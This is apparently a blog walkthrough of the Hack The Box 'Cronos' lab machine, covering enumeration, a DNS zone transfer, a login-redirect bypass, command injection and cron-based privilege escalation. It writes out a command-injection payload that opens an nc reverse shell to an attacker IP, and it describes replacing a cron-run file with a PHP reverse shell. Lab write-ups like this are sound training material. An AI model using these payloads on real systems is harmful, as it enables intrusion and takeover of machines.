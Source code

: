 ```yaml
---
layout: PostSimple
date: 2020-01-16
title:     "Hack The Box - Cronos"
tags: ['linux','medium','domain','cron','redirection']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/1.png)

We are going to pwn Cronos from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/11](https://www.hackthebox.eu/home/machines/profile/11)


Like always begin with our Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 4.8 (92%), Linux 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/2.png)
Its an apache2 default webpage.

I edited my ``/etc/hosts`` file to add the machine’s name ``cronos.htb`` and then revisit the page to check it shows any different page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/3.png)

The server is running ``laravel framework`` every page leads to ``laravel`` releated things.
So I started checking other ports.

## Port 53 Enumeration

Which is ``domain`` may be we can do a zone transfer for that domain. For that we can use a tool named ``dig``.

> dig - DNS lookup utility

By using this we can find other domains available for the webpage. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/4.1.png)

> AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers.

Got some new domains, So I added those new entries to ``/etc/hosts``

Started from ``admin.cronos.htb``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/4.png)
Its an Login page!!

Lets bruteforce the directories using ``Gobuster`` to check if anything useful for us.

## Gobuster Results
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admin.cronos.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/01/16 20:34:34 Starting gobuster
===============================================================
 /index.php (Status: 200)
 /welcome.php (Status: 302)
 /logout.php (Status: 302)
 /config.php (Status: 200)
 /session.php (Status: 302)
 /server-status (Status: 403)
```

## Getting Initial Shell

When I try to enter ``/welcome.php`` it redirects to ``/login.php`` , So we can stop the redirection and see what that page leads us.[br/](br/)
We can use ``intruder`` from burp to do this process.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/5.png)[br/](br/)
All we need to do is change ``302 Found`` to ``200 Ok``.

For that open ``Proxy -> Options -> Match and Replace``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/6.png)

``/welcome.php`` it leads to a page where it has a tool to ping.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/7.png)

So I tried some normal command injections and  ``&&`` helps to exec another commands.

`` 10.10.14.8 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/8.png)[br/](br/)
We got the shell

While checking for any useful files in ``/var/www`` found ``/admin.php/config.php``  and its give me ``mysql`` credentials
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/9.png)

I logged in with them to check any user credentials available and found a hash for admin but it takes some time to crack the hash.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/10.png)

## Privilege Escalation

I uploaded my Enumeration Script to the box and found there is a cronjob running so I uploaded ``pspy`` to see whats actually going on.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/11.png)

We have write permission on the on the folder ``/var/www/laravel/``and its running as php so we can create a file with the same name ``artisan`` and upload our php reverse shell.

I created ``artisan`` file in my machine with php reverse shell and uploaded to the box.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/12.png)

Started my Listener and waited for the cronjob to execute my reverse shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/13.png)

Got Root!!